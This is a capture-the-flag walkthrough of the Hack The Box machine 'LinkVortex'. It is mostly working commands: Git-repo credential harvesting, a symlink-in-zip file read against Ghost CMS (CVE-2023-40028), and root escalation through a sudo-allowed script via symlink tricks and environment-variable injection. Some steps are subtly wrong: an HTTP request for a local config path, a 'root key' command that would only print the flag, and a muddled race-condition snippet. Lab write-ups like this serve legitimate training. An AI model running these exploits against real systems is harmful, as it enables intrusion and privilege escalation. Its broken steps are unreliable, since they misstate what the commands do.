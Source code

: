## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- **Exploits Used:**  
  - Ghost CMS Git repo leak  
  - CVE‑2023‑40028 Ghost “symlink‑in‑zip” file‑read  
  - `clean_symlink.sh` sudo abuse (double‑symlink, TOCTOU, `$CHECK_CONTENT` injection)  

**Open Ports:**  
- SSH 22/tcp  
- HTTP 80/tcp  

**Tools:**  
nmap, ffuf, git‑dumper, curl, zip/unzip, Python 3 (requests, zipfile), sshpass  

---

## Recon 🔍  

##### Scan all ports & services

```bash
nmap -p- --min-rate 10000 10.10.11.47
```

```bash
nmap -p 22,80 -sCV 10.10.11.47
```
# Host‑header fuzzing to find dev subdomain

```bash
ffuf -u http://10.10.11.47 -H "Host: FUZZ.linkvortex.htb" \
     -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -ac
```

```bash
feroxbuster -u http://dev.linkvortex.htb
```

---

## Shell as bob 🐚  
1. **Dump the Git repo**  
   ```bash
   git-dumper http://dev.linkvortex.htb/.git/ source/
   ```
2. **Harvest creds**  
   - In `ghost/core/test/regression/api/admin/authentication.test.js`, password changed to `OctopiFociPilfer45`  
   - Login at `http://linkvortex.htb/ghost` with `admin@linkvortex.htb`  

3. **Exploit CVE‑2023‑40028**  

   # Craft ZIP with symlink:
   ```bash
ln -s /etc/passwd content/images/evil.png
zip -y -r poc.zip content/images/evil.png
```

#### Import via Ghost Admin API (use your session cookie)
```bash
curl -F "importfile=@poc.zip" -b "ghost-admin-api-session=…" http://linkvortex.htb/ghost/api/admin/db
```

```
   # Read file:
   curl http://linkvortex.htb/content/images/evil.png
   ```

4. **Extract bob’s SSH credentials**  
   ```bash
   curl -b "ghost-admin-api-session=…" http://linkvortex.htb/var/lib/ghost/config.production.json | jq '.mail.options.auth'
   ```
   #### → "bob@linkvortex.htb" / "fibber-talented-worth"

5. **SSH as bob**  
   ```bash
   sshpass -p fibber-talented-worth ssh bob@linkvortex.htb
   cat user.txt
   ```

---

## Shell as root 👑  
1. **Check sudo rights**  
   ```bash
   sudo -l
   # NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
   ```
2. **Exploit `clean_symlink.sh`**  
   - **Double‑symlink**  
     ```bash
     ln -s /root/root.txt /home/bob/.cache/b
     ln -s /home/bob/.cache/b /home/bob/.cache/a.png
     CHECK_CONTENT=true sudo bash /opt/ghost/clean_symlink.sh /home/bob/.cache/a.png
     ```
   - **TOCTOU race**  
     ```bash
     while true; do ln -sf /root/root.txt /var/quarantined/x.png; done
     ln -s /some/other.png /dev/shm/x.png
     CHECK_CONTENT=true sudo bash /opt/ghost/clean_symlink.sh /dev/shm/x.png
     ```
   - **`$CHECK_CONTENT` injection**  
     ```bash
     ln -s dummy.png a.png
     CHECK_CONTENT=bash sudo bash /opt/ghost/clean_symlink.sh a.png
     # drops into a root shell
     ```
3. **SSH as root**  
   ```bash
   # Or extract root’s SSH key:
   CHECK_CONTENT=true sudo bash /opt/ghost/clean_symlink.sh /home/bob/.cache/a.png > root_key
   chmod 600 root_key
   ssh -i root_key root@linkvortex.htb
   cat root.txt
   ```

---

## Beyond Root 🔧  
- **Apache security hardening** in `/etc/apache2/sites-enabled/vhost.conf`:  
  ```apache
  ServerSignature Off
  ServerTokens Prod
  ```  
  Suppresses version info in `Server:` header and 404 footer.  

---

## Actions Learned 🎓  
- Host‑header subdomain discovery  
- Git repo enumeration & credential harvesting  
- Ghost CMS zip‑symlink file‑read (CVE‑2023‑40028)  
- Sudo script exploitation via symlink attacks & env injection  
- Apache `ServerTokens`/`ServerSignature` security directives  

---

## References 🔗  
- [CVE‑2023‑40028 Ghost symlink‑in‑zip vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2023-40028)  
- Ghost Admin API `/db` endpoint docs  
- Apache docs on `ServerTokens` & `ServerSignature`   